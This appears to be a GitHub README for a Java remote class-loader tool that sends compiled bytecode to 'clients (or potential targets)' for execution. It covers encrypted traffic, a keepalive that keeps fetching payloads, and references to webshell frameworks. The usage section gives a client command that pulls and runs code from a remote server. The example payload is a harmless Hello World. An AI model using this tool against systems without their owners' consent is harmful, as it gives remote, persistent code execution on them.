

<h1 align="center">
  
  <br>
</h1>

This tool allows you to send Java bytecode in the form of class files to your clients (or potential targets) to load and execute using Java ClassLoader together with Reflect API. The client receives the class file from the server and return the respective execution output. Payloads must be written in Java and compiled before starting the server.


# Features
 - Client-server architecture
 - Remote loading of Java class files
 - In-transit encryption using ChaCha20 cipher
 - Settings defined via args
 - Keepalive mechanism to re-establish communication if server restarts

# Installation

Tool has been tested using OpenJDK 11 with JRE Java Package, both on Windows and Linux (zip portable version).
Java version should be 11 or higher due to dependencies.

[https://www.openlogic.com/openjdk-downloads](https://www.openlogic.com/openjdk-downloads)


# Usage

```console
$ java -jar java-class-loader.jar -help

usage: Main
 -address <arg>       address to connect (client) / to bind (server)
 -classfile <arg>     filename of bytecode .class file to load remotely
                      (default: Payload.class)
 -classmethod <arg>   name of method to invoke (default: exec)
 -classname <arg>     name of class (default: Payload)
 -client              run as client
 -help                print this message
 -keepalive           keeps the client getting classfile from server every
                      X seconds (default: 3 seconds)
 -key <arg>           secret key - 256 bits in base64 format (if not
                      specified it will generate a new one)
 -port <arg>          port to connect (client) / to bind (server)
 -server              run as server
```

# Example

Assuming you have the following Hello World payload in the `Payload.java` file:

```java
//Payload.java
public class Payload {
    public static String exec() {
        String output = "";
        try {
            output = "Hello world from client!";
        } catch (Exception e) {
            e.printStackTrace();
        }
        return output;
    }
}
```

Then you should compile and produce the respective `Payload.class` file.

To run the server process listening on port 1337 on all net interfaces:

```console
$ java -jar java-class-loader.jar -server -address 0.0.0.0 -port 1337 -classfile Payload.class

Running as server
Server running on 0.0.0.0:1337
Generated new key: TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=
```


On the client side, you may use the same JAR package with the `-client` flag and use the symmetric key generated by server.
Specify the server IP address and port to connect to. You may also change the class name and class method (defaults are `Payload` and `String exec()` respectively). Additionally, you can specify `-keepalive` to keep the client requesting class file from server while maintaining the connection.

```console
$ java -jar java-class-loader.jar -client -address 192.168.1.73 -port 1337 -key TOU3TLn1QsayL1K6tbNOzDK69MstouEyNLMGqzqNIrQ=

Running as client
Connecting to 192.168.1.73:1337
Received 593 bytes from server
Output from invoked class method: Hello world from client!
Sent 24 bytes to server
```


# References

Refer to [https://vrls.ws/posts/2022/08/building-a-remote-class-loader-in-java/](https://vrls.ws/posts/2022/08/building-a-remote-class-loader-in-java/) for a blog post related with the development of this tool.


1.  [https://github.com/rebeyond/Behinder](https://github.com/rebeyond/Behinder)

2. [https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)

3. [https://cyberandramen.net/2022/02/18/a-tale-of-two-shells/](https://cyberandramen.net/2022/02/18/a-tale-of-two-shells/)

4. [https://www.sangfor.com/blog/cybersecurity/behinder-v30-analysis](https://www.sangfor.com/blog/cybersecurity/behinder-v30-analysis)

11. [https://xz.aliyun.com/t/2799](https://xz.aliyun.com/t/2799)

12. [https://medium.com/@m01e/jsp-webshell-cookbook-part-1-6836844ceee7](https://medium.com/@m01e/jsp-webshell-cookbook-part-1-6836844ceee7)

10. [https://venishjoe.net/post/dynamically-load-compiled-java-class/](https://venishjoe.net/post/dynamically-load-compiled-java-class/)

5. [https://users.cs.jmu.edu/bernstdh/web/common/lectures/slides_class-loaders_remote.php](https://users.cs.jmu.edu/bernstdh/web/common/lectures/slides_class-loaders_remote.php)

6. [https://www.javainterviewpoint.com/chacha20-poly1305-encryption-and-decryption/](https://www.javainterviewpoint.com/chacha20-poly1305-encryption-and-decryption/)

7. [https://openjdk.org/jeps/329](https://openjdk.org/jeps/329)

8. [https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ClassLoader.html](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ClassLoader.html)

9. [https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/reflect/Method.html](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/reflect/Method.html)
